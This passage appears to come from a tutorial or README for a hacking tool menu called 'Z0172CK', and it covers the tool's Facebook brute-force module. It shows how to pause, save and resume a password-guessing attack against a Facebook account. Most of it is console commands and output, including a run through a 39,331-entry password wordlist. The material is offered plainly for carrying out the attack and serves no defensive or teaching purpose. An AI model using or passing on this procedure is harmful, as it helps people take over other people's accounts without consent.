 all 20 passwords have been completed and we have to wait for one or we can give it Ctrl + c to save the attack and use it again in an hour

```bash
Ctrl + c
[*] Waiting a second...

Save session for user correo@correo.com ? [Y/n]:
```

It will ask us if we want to save the session. in this case I give it that if

```bash
Save session for user correo@correo.com ? [Y/n]: Y
```

```bash
Session saved.
Use [11] resume
```

after being saved we can use the attack again until it was

```bash
[01] Start Brute Force
[02] Continue Brute Force

[99] Back

Z0172CK (BruteForce/Facebook) > 2
```

```bash
Z0172CK (BruteForce/Facebook) > 2
Files sessions:
1 : modules/FB-BruteForce/sessions/store.session.correo@correo.com.2020-07-23T1133 (wl: modules/FB-BruteForce/passwords.lst, lastpass: 987654321 )
Choose a session number:
```

we give enter and we can continue with our attack

```bash
1 : modules/FB-BruteForce/sessions/store.session.correo@correo.com.2020-07-23T1133 (wl: modules/FB-BruteForce/passwords.lst, lastpass: 987654321 )
Choose a session number: 
[*] Resuming session for user: 
[*] Wordlist:  modules/FB-BruteForce/passwords.lst
[*] Press Ctrl + C to stop or save session
Trying pass (20/39331): 987654321
Trying pass (21/39331): corvette
Trying pass (22/39331): 1234qwer
Trying pass (23/39331): 88888888
Trying pass (24/39331): q1w2e3r4t5
Trying pass (25/39331): internet
Trying pass (26/39331): samantha
Trying pass (27/39331): whatever
Trying pass (28/39331): maverick
Trying pass (29/39331): steelers
Trying pass (30/39331): mercedes
Trying pass (31/39331): 123123123
Trying pass (32/39331): qwer1234
Trying pass (33/39331): hardcore
Trying pass (34/39331): q1w2e3r4
Trying pass (35/39331): midnight
Trying pass (36/39331): bigdaddy
Trying pass (37/39331): victoria
```

